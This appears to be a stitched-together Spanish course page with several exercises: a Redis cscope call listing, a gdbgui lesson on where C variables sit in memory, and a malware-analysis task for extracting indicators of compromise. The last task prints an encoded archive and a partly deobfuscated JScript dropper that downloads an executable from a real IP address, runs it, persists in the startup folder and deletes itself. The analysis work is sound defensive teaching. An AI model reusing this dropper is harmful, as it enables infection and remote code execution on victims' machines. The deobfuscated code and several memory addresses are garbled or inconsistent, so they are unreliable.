src/server.c sdscat 6552 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscat 6553 info = sdscat(info, "# Errorstats\r\n");
src/server.c raxStart 6555 raxStart(&ri,server.errors);
src/server.c raxSeek 6556 raxSeek(&ri,"^",NULL,0);
src/server.c raxNext 6558 while (raxNext(&ri)) {
src/server.c sdscatprintf 6561 info = sdscatprintf(info,
src/server.c getSafeInfoString 6563 (int )ri.key_len, getSafeInfoString((char *) ri.key, ri.key_len, &tmpsafe), e->count);
src/server.c zfree 6564 if (tmpsafe != NULL) zfree(tmpsafe);
src/server.c raxStop 6566 raxStop(&ri);
src/server.c dictFind 6570 if (all_sections || (dictFind(section_dict,"latencystats") != NULL)) {
src/server.c sdscat 6571 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6572 info = sdscatprintf(info, "# Latencystats\r\n");
src/server.c genRedisInfoStringLatencyStats 6574 info = genRedisInfoStringLatencyStats(info, server.commands);
src/server.c dictFind 6579 if (all_sections || (dictFind(section_dict,"cluster") != NULL)) {
src/server.c sdscat 6580 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6581 info = sdscatprintf(info,
src/server.c dictFind 6588 if (all_sections || (dictFind(section_dict,"keyspace") != NULL)) {
src/server.c sdscat 6589 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6590 info = sdscatprintf(info, "# Keyspace\r\n");
src/server.c kvstoreSize 6594 keys = kvstoreSize(server.db[j].keys);
src/server.c kvstoreSize 6595 vkeys = kvstoreSize(server.db[j].expires);
src/server.c estoreSize 6596 subexpiry = estoreSize(server.db[j].subexpires);
src/server.c sdscatprintf 6599 info = sdscatprintf(info,
src/server.c dictFind 6607 if (all_sections || (dictFind(section_dict,"keysizes") != NULL)) {
src/server.c sdscat 6608 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6609 info = sdscatprintf(info, "# Keysizes\r\n");
src/server.c serverAssert 6618 serverAssert(sizeof(typestr)/sizeof(typestr[0]) == OBJ_TYPE_BASIC_MAX);
src/server.c kvstoreSize 6631 if (kvstoreSize(server.db[dbnum].keys) == 0)
src/server.c kvstoreGetMetadata 6635 int64_t *kvstoreHist = kvstoreGetMetadata(server.db[dbnum].keys)->keysizes_hist[type];
src/server.c snprintf 6640 buflen += snprintf(buf + buflen, sizeof(buf) - buflen, "db%d_%s:", dbnum, typestr[type]);
src/server.c snprintf 6646 int res = snprintf(buf + buflen, sizeof(buf) - buflen,
src/server.c sdscatprintf 6655 if (cnt) info = sdscatprintf(info, "%s\r\n", buf);
src/server.c dictFind 6665 if (everything || dictFind(section_dict, "modules") != NULL || sections < (int )dictSize(section_dict) ||
src/server.c dictSize 6665 if (everything || dictFind(section_dict, "modules") != NULL || sections < (int )dictSize(section_dict) ||
src/server.c dictSize 6666 (all_sections && dictSize(section_dict)))
src/server.c modulesCollectInfo 6669 info = modulesCollectInfo(info,
src/server.c dictFind 6670 everything || dictFind(section_dict, "modules") != NULL ? NULL: section_dict,
src/server.c dictFind 6675 if (dictFind(section_dict, "debug") != NULL) {
src/server.c sdscat 6676 if (sections++) info = sdscat(info,"\r\n");
src/server.c sdscatprintf 6677 info = sdscatprintf(info, "# Debug\r\n" FMTARGS(
src/server.c FMTARGS 6677 info = sdscatprintf(info, "# Debug\r\n" FMTARGS(
cscope -d
En el menú de cscope, escogemos la opción: 2 – Find functions called by this function:

Escribimos la función que nos pide el ejercicio: genRedisInfoString:

donde:
barra espaciadora.Vamos a analizar las variables de un programa y donde se van a ubicar en memoria.
Respecto del siguiente programa, indicad de que tipo son cada una de las variables, en que zona o segmento de la memoria se ubicará y que valor por defecto poseerá al inicio del programa.
#include <stdio.h>
#include <stdlib.h>
int gni;
int gi = 99;
void f() {
static int eni;
static int ei = 99;
printf("Dir: %p Val: %i\n", &eni, eni);
printf("Dir: %p Val: %i\n", &ei, ei);
}
int main() {
f();
int *pae = malloc(sizeof(int));
printf("Dir: %p Val: %i\n", pae, *pae);
*pae = 100;
printf("Dir: %p Val: %i\n", pae, *pae);
gni = 9;
printf("Dir: %p Val: %i\n", &gni, gni);
printf("Dir: %p Val: %i\n", &gi, gi);
free(pae);
return 0;
}
Para comprobar dónde se almacenan las variables del programa, vamos a instalar gdbgui. Gdbgui es una interfaz gráfica para el depurador gdb que se ejecuta en el navegador web. Es una forma más amigable y visual de usar gdb para depurar, ver variables y examinar memoria.
Instalamos gdbgui en un entorno virtual python en linux:
# 1) Preparar
sudo apt install python3 python3-pip python3-venv gdb
# 2) Proyecto python + Entorno virtual venv
mkdir ~/gdbgui_project
cd ~/gdbgui_project
python3 -m venv venv
source venv/bin/activate
pip install --upgrade pip
pip install gdbgui
# 3) Ejecutar
gdbgui
Compilamos con símbolos el programa del ejercicio:
gcc -g -O0 ejercicio5.c -o ejercicio5
Cargamos el binario en gdbgui:
Normalmente en el navegador, accedemos a http://127.0.0.1:5000 y abrimos el binario compilado para ir viendo las variables.
./ejercicio5


Añadimos breakpoints clave en gdbgui:
Vemos algunos de los segmentos/secciones del ejecutable:
Escribimos en la consola integrada de gdbgui:
(gdb) info files

Mostramos más detalles por sección:
(gdb) maintenance info sections
......
[13] 0x555555555070->0x555555555270 at 0x00001070: .text ALLOC LOAD READONLY CODE HAS_CONTENTS
......
[24] 0x555555558018->0x555555558030 at 0x00003018: .data ALLOC LOAD DATA HAS_CONTENTS
[25] 0x555555558030->0x555555558040 at 0x00003030: .bss ALLOC
.....
Vemos el mapa de memoria del proceso:
Con esto podremos indentificar en qué segmento/región cae una dirección concreta:
(gdb) info proc mappings
process 71413
Mapped address spaces:
Start Addr End Addr Size Offset Perms File
...
0x0000555555559000 0x000055555557a000 0x21000 0x0 rw-p [heap]
...
0x00007ffff7f93000 0x00007ffff7f95000 0x2000 0x1e6000 rw-p /usr/lib/x86_64-linux-gnu/libc.so.6
0x00007ffff7f95000 0x00007ffff7fa2000 0xd000 0x0 rw-p
0x00007ffff7fbd000 0x00007ffff7fbf000 0x2000 0x0 rw-p
0x00007ffff7fbf000 0x00007ffff7fc3000 0x4000 0x0 r--p [vvar]
0x00007ffff7fc3000 0x00007ffff7fc5000 0x2000 0x0 r--p [vvar_vclock]
0x00007ffff7fc5000 0x00007ffff7fc7000 0x2000 0x0 r-xp [vdso]
0x00007ffff7fc7000 0x00007ffff7fc8000 0x1000 0x0 r--p /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
...
0x00007ffff7ffe000 0x00007ffff7fff000 0x1000 0x0 rw-p
0x00007ffffffde000 0x00007ffffffff000 0x21000 0x0 rw-p [stack]
(gdb)
Las variables del programa se reparten entre segmento de datos (inicializados y no inicializados), stack y heap, y sus valores por defecto dependen de si son estáticas/globales o automáticas/dinámicas.
gni (Global No Inicializada) donde:
donde:
gni: gni 0x5555555558034 int * y *gni 9 int.0x5555555558034 → bytes 09 00 00 00 ... → valor 9 en little-endian, que coincide con la asignación gni = 9;.Revisamos dónde cae esa dirección 0x5555555558034:
Comparamos esta dirección con el resultado de maintenance info sections. Así identificaremos si la variable está en .data, .bss, heap, stack:
(gdb) maintenance info sections
......
[24] 0x555555558018->0x555555558030 at 0x00003018: .data ALLOC LOAD DATA HAS_CONTENTS
[25] 0x555555558030->0x555555558040 at 0x00003030: .bss ALLOC
[26] 0x00000000->0x0000001e at 0x00003030: .comment READONLY HAS_CONTENTS
......
donde:
.bss: 0x555555558030.bss: 0x555555558040gni: 0x555555555803gni cae dentro del rango de la sección .bss, por lo tanto la variable gni está en .bss.gi (Global Inicializada)
Dirección de la variable gi:
p &gi
$1 = (int *) 0x555555558028 <gi>
(gdb)
Dirección de esta variable: 0x00000000000.
.data: 0x555555558018..data: 0x555555558030.gi cae dentro del rango de la sección .data, por lo tanto la variable gi está en .data.eni (Estática No Inicializada)f.f. Aunque está declarada dentro de una función (f), la palabra clave static le dice al compilador que la trate como una global en cuanto a su vida (dura todo el programa), pero con ámbito local (solo visible en f).
Dirección de la variable eni:
p &eni
$1 = (int *) 0x555555558038 <eni>
(gdb)
Dirección de esta variable: 0x555555555038.
.bss: 0x55555555803..bss: 0x555555558040.eni cae dentro del rango de la sección .bss, por lo tanto la variable eni está en .bss.ei (Estática Inicializada)f.f. Aunque está declarada dentro de una función (f), la palabra clave static le dice al compilador que la trate como una global en cuanto a su vida (dura todo el programa), pero con ámbito local (solo visible en f).static y tener un valor asignado = 99, se guarda junto con las globales inicializadas.
Dirección de la variable ei:
(gdb) p &ei
$2 = (int *) 0x55555555802c <ei>
donde:
ei se encuentra en la dirección: 0x55555555802c.Revisamos dónde cae esa dirección 0x55555555802c:
Comparamos esta dirección con el resultado de maintenance info sections. Así identificaremos si la variable está en .data, .bss, heap, stack, etc.
(gdb) maintenance info sections
......
[24] 0x555555558018->0x555555558030 at 0x00003018: .data ALLOC LOAD DATA HAS_CONTENTS
[25] 0x555555558030->0x555555558040 at 0x00003030: .bss ALLOC
[26] 0x00000000->0x0000001e at 0x00003030: .comment READONLY HAS_CONTENTS
......
donde:
.data: 0x555555558018..data: 0x555555558030.de ei: 0x55555555802c.ei cae dentro del rango de la sección .data, por lo tanto la variable ei está en .data.pae (El puntero en sí) y *pae (El contenido apuntado / Memoria Dinámica)pae:
malloc(sizeof(int)) que en cuanto se ejecute esa intrucción será, una dirección del heap. Si pae se declara sin inicializar, entonces contendrá un valor indeterminado, que es basura del stack, hasta que se le asigne algo.*pae:
pae.malloc reserva memoria pero no la inicializa, por lo que el contenido es basura hasta que se le asigne en la instrucción ➞ ➞ ➞ *pae = 100;.Recordemos el mapa de memoria para el proceso:
(gdb) info proc mappings
process 56991
Mapped address spaces:
Start Addr End Addr Size Offset Perms File
....
0x0000555555559000 0x000055555557a000 0x21000 0x0 rw-p [heap]
....
0x00007ffffffde000 0x00007ffffffff000 0x21000 0x0 rw-p [stack]
....
donde:
heap: 0x000055555555900.heap: 0x000055555557a000.stack: 0x00007ffffffde000.stack: 0x00007ffffffff000.Estamos en el breakpoint de la línea 17, justo antes de ejecutar la llamada a malloc:
 donde:
donde:
pae es una variable local automática de tipo int * que vive en el stack de main. En este punto GDB resuelve pae = 0x7fffffffdbf0 (valor del puntero), que es basura porque aún no se ha ejecutado pae = malloc(sizeof(int));.01 00 00 00 00 00 00 00 son simplemente la “basura” que hay en esa zona del stack antes de inicializar pae con el resultado de malloc.Recordando los operadores:
&x devuelve la dirección de la variable x.*p accede al valor al que apunta el puntero p.En nuestro caso:
pae
stack.&pae
pae.int *.(gdb) p &pae
$3 = (int **) 0x7fffffffdb58
0x7fffffffdbf0… → stack).*pae
&*pae
&*pae == pae.(gdb) p &*pae
$4 = (int *) 0x7fffffffdbf0
En este breakpoint concreto:
pae ≈ 0x7fffffffdbf0 Basura.&pae = 0x7fffffffdb58 Dirección del puntero en el stack. También está en el rango de direcciones reservado para el stackEstamos en el breakpoint de la línea 18, justo despues de ejecutar la llamada a malloc:
 donde:
donde:
&pae = 0x7fffffffdb58
&*pae = 0x5555555596b0
int reservado con malloc.pae 0x5555555596b0 int *:
stack.heap del objeto int que se ha reservado.&*pae == pae.Estamos en el breakpoint de la línea 21:
 donde:
donde:
pae:
int *.&pae = 0x7fffffffdb58 (stack).pae = 0x5555555596b0 (dirección de heap).*pae:
int en el heap (memoria dinámica).&*pae = 0x5555555596b0 (igual que pae).64 00 00 00 .... Ques es 100 en hexadecimal.| Variable | Tipo | Ámbito / Clase | Duración | Segmento de memoria | Valor por defecto al inicio del programa |
|---|---|---|---|---|---|
int gni; |
int |
Global, sin inicializar | Estática | .bss |
0 |
int gi = 99; |
int |
Global, inicializada | Estática | .data |
99 |
static int eni; |
int |
Estática local no inicializada. static local en f() |
Estática | .bss |
0 |
static int ei = 99; |
int |
Estática local inicializada. static local en f() |
Estática | .data |
99 |
int *pae |
int * |
Local en main |
Automática | Stack (pila) | Sin valor por defecto (pero se inicializa con malloc) |
*pae |
int |
Dato apuntado por pae |
Dinámica. | Heap | Indeterminado (basura tras malloc, hasta hacer *pae = 100) |
Direcciones bajas
┌───────────────────────────────────────────────────────┐
│ Código (.text) |
| código de main, f, printf, etc. │
├───────────────────────────────────────────────────────┤
│ Datos inicializados (.data) │
│ - gi = 99 (global int = 99) │
│ - ei = 99 (static int en f() = 99) │
├───────────────────────────────────────────────────────|
│ Datos no inic. (.bss) │
│ - gni = 9 (global int sin inicializar) │
│ - eni = 0 (static int en f() sin inicializar) │
├───────────────────────────────────────────────────────┤
│ Heap (montículo) │
│ [ int ] = 100 ← *pae (dirección: 0x5555555596b0) │
│ |
├───────────────────────────────────────────────────────┤
│ ... espacio libre ... │
├───────────────────────────────────────────────────────┤
│ Stack (pila) │
│ - variables de main: │
│ pae (int *) → contiene 0x5555555596b0 │
└───────────────────────────────────────────────────────┘
Direcciones altas
Debes analizar este fragmento y extraer la funcionalidad que posee y los IOC (Indicadores de compromiso1) asociados (dominios, IP, etc) para crear reglas eficaces en los sistemas de defensa de la empresa.
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
Ese fragmento está codificado y comprimido, luego tenéis que realizar las siguientes operaciones para obtener el original (vamos a suponer que lo habéis guardado en un archivo: mrev_t1_exe6.txt):
Pistas:


\uXXXX:Cada \uXXXX es un carácter Unicode en hexadecimal. Ejemplo:
\u0041 → A\u0063 → c\u0074 → t\u0069 → i\u0076 → v\u0065 → eEsto {...} es Basura. Solo importa lo que está entre comillas.
Vamos a usar Expresiones Regulares (Regex) para quitar esa basura. En Visual Studio:
\{[^{}]+:(".*?")\}\.[a-zA-Z0-9]+$1. Mantendrá sólo lo que encuentra dentro del primer paréntesis (las comillas).
Ahora vamos a quitar los +:
"\+".
Podemos usar el propio navegador para hacer esa conversión:
Copiamos el bloque con las comillas y las secuencias \u00xx (por ejemplo \\u0041\\u0063...).
En la consola del browser usamos:
// Pegamos las cadenas ofuscadas
const s = "\\u0041\\u0063\\u0074\\u0069\\u0076\\u0065\\u0058\\u004f\\u0062\\u006a\\u0065\\u0063\\u0074";
const decoded = s.replace(/\\u[0-9a-fA-F]{4}/g, m =>
String.fromCharCode(parseInt(m.slice(2), 16))
);
console.log(decoded); // Veremos el resultado desofuscado la cadena

Reemplazamos en el archivo el texto ofuscado por el decoded que ha impreso el console.log.
var pre_computer = this["ActiveXObject"]
Repetimos el proceso con Node:
Creamos un archivo decode.js:
let s = "\\u0057\\u0053\\u0063\\u0072\\u0069\\u0070\\u0074";
let decoded = s.replace(/\\u[0-9a-fA-F]{4}/g, m =>
String.fromCharCode(parseInt(m.slice(2), 16))
);
console.log(decoded);
Ejecutamos este archivo con node:

Repetimos el proceso para todas las cadenas ofuscadas. Obtenemos:
pre_interactions=null;
pre_including8=null;
pre_with=null;
pre_Similar=null;
pre_customer=null;
pre_with2=null;
pre_training2=null;
pre_provide5=null;
pre_with=null;
pre_malicious1=null;
pre_purposes=null;
pre_software5=null;
varpre_computer=this["ActiveXObject"];
varWSSS12=this["WScript"];
varpre_your=WSSS12["CreateObject"]("WScript.Shell");
varpre_your8=newpre_computer("Scripting.FileSystemObject")
varfstream=newpre_computer("ADODB.Stream");
varoShell=newpre_computer("Shell.Application");
varpre_from=pre_your["ExpandEnvironmentStrings"]("%TEMP%")
varpre_geolocation6=pre_from+"\\floor](Math["random"]()*(20+20+5+5+25+25)+1)+".exe";
varxhr12=newpre_computer("Msxml2.ServerXMLHTTP")
varpre_national7="\aflash_update.js"
varpre_interactions4=oShell["NameSpace""](3+2+2);
arpre_information5=false;
varpre_mobile7=false;
vartone=1;
varpre_following4=0;
arpre_information=0;
varfilets=null;
varpre_your="";
varscrpath=WSSS12["ScriptFullName"];
varautor=pre_interactions4.Self.Path+pre_national7;varpre_overheard=autor;varpre_from="https://217.28.218.217/NOPE/q64.php?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt";
if(scrpath!=autor&&pre_information5==false){pre_information5=true;
pre_your8["DeleteFile"](scrpath);
WSSS12["echo"]("he document is corrupted an\d cannot be opened")
WSSS12["Sleep"](5000);
}for(pre_information=0;
pre_information<pre_overheard.length;
pre_information++){pre_following4=((pre_following4<<5)-pre_following4+pre_overheard.charCodeAt(pre_information))&0xffffffff;}while(true){tone=tone+1
if(tone==200000000){while(true){try{xhr12["setOption"](3,"MSXML");xhr12["open"]("GET",pre_from+"&"+Math["&"floor"](Math["random"]()*200+1)+"&uid="+Math["abs"](pre_following4),false);
xhr12["send"]();if(xhr12["status"]==100+50+50){if(pre_your8["FileExists"](pre_geolocation6))pre_your8["DeleteFile"](pre_geolocation6);
fstream["Open"]();fstream["Type"]=1;
fstream["Write"](xhr12["responseBody"]);
fstream["Position"]=0
fstream["SaveToFile"](pre_geolocation6);
fstream["Close"]();filets=pre_your8["GetFile"](pre_geolocation6)["OpenAsTextStream"](1)
if(pre_your8["FileExists"](pre_geolocation6)&&filets["ReadLine"]()[""substring""](0,2)=="MZ"){pre_mobile7=true;oShell["ShellExecute"](pre_geolocation6,"","","open1")
if(pre_your8["FileExists"\u0074""\u0073""](WSSS12["ScriptFullName""]))pre_your8["DeleteFile"](WSSS12["ScriptFullName"])
WSSS12["Sleep""](20*200);if(pre_your8["FileExists"](pre_geolocation6))pre_your8["DeleteFile"](pre_geolocation6);
filets["Close"]();
break;
}filets[""Close"]();
}}catch(e){}if(pre_mobile7==true){break;
}WSSS12["Sleep"](10000*8);
}break;
}}pre_experienceInformation1=0.619;
pre_collect2=0.826;
pre_interactions4=0.82;
pre_numbers8=0.266;
pre_sent=318;
pre_access=170;
pre_companies=628;
pre_law=100;
pre_PayPal10=164;
pre_PayPal1=0.73;
pre_warningInformation=0.277;
pre_applicable=363;
pre_order=0.951;
pre_receive=412;
pre_information=542;
pre_reason3=759;
pre_conversations8=126;
pre_receive=884;
pre_data6=0.278;
Por ejemplo en varpre_computer → le falta un espacio: debería ser algo como var pre_computer = ... Corregimos todos estos espacios en blanco.
var ActiveXObject_ = this["ActiveXObject"];
var WScriptObj = this["WScript"];
var shell = WScriptObj["CreateObject"]("WScript.Shell");
var fso = new ActiveXObject_("Scripting.FileSystemObject");
var stream = new ActiveXObject_("ADODB.Stream");
var shellApp = new ActiveXObject_("Shell.Application");
var tempPath = shell["ExpandEnvironmentStrings"]("%TEMP%");
var targetPath = tempPath + "\\" +
Math["floor"](Math["random"]()*(20+20+5+5+25+25)+1) +
".exe";
var http = new ActiveXObject_("Msxml2.ServerXMLHTTP");
var scriptCopyName = "\\aflash_update.js";
var folder3 = shellApp["NameSpace"](3+2+2); // carpeta especial
var hasRun = false;
var executed = false;
var tone = 1;
var hash = 0;
var tmpFile = null;
var scriptPath = WScriptObj["ScriptFullName"];
var autor = folder3.Self.Path + scriptCopyName;
var remoteUrl = "https://217.28.218.217/NOPE/q64.php?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt";
Vamos a limpiar las llamadas tipo objeto["metodo"] a objeto.metodo: Para hacerlo aún más legible, vamos sustituyendo por ejemplo shell["ExpandEnvironmentStrings"] por shell.ExpandEnvironmentStrings. Repetimos con el resto de objetos que nos encontramos en el código.
pre_interactions = null;
pre_including8 = null;
pre_with = null;
pre_Similar = null;
pre_customer = null;
pre_with2 = null;
pre_training2 = null;
pre_provide5 = null;
pre_with = null;
pre_malicious1 = null;
pre_purposes = null;
pre_software5 = null;
// INICIALIZACIÖN DE OBJETOS
var ActiveXObject = this["ActiveXObject"];
var WScriptObj = this["WScript"];
var shell = WScriptObj.CreateObject("WScript.Shell");
var fso = new ActiveXObject("Scripting.FileSystemObject")
var stream = new ActiveXObject("ADODB.Stream");
var shellApp = new ActiveXObject("Shell.Application");
// RUTAS Y CONFIGURACIÓN
var tempPath = shell.ExpandEnvironmentStrings("%TEMP%")
var targetPath = tempPath+"\\" + Math.ramdom () * (20+20+5+5+25+25)+1 + ".exe";
var http = new ActiveXObject("Msxml2.ServerXMLHTTP")
var scriptCopyName = "\\aflash_update.js"
var folder = shellApp.NameSpace(3+2+2);
var hasRun = false;
var executed = false;
var tone = 1;
var hash = 0;
var pre_information = 0;
var tmpFile = null;
var shellString = "";
var scriptPath = WScriptObj.ScriptFullName;
var autor = folder.Self.Path+scriptCopyName;
var pre_overheard = autor;
var tempPath = "https://217.28.218.217/NOPE/q64.php?add=gtyhbncdfewpnjm9oklmnfdrtqdczdfgrt";
// LOGICA DE PERSISTENCIA
if (scriptPath !=autor && hasRun == false){
hasRun=true;
fso.DeleteFile(scriptPath); // Se borra a sí mismo
WScriptObj.echo("he document is corrupted an\d cannot be opened")
WScriptObj.Sleep(5000);
}
